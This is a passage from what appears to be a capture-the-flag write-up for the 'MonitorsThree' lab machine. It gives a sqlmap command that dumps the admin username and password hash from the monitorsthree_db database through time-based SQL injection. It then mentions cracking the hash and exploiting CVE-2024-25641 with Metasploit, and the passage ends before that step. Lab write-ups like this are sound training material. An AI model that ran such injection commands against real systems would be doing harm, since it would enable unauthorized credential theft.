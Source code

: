 Dump the <mark style="color:red;">**`monitorsthree_db`**</mark> table:

{% code overflow="wrap" %}
```bash
sqlmap -r request.txt --batch -T users -C username,password --where="username='admin'" -D monitorsthree_db --dump --level=3 --risk=3 --threads=10 --technique=T --skip=dbs,hostname --no-cast --no-escape --crawl=0 --fresh-queries --test-filter=timed
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Decode that hash password and log to the page

Since it's [CVE-2024-25641](https://nvd.nist.gov/vuln/detail/CVE-2024-25641), we can use Metasploit to exploit it more easily:
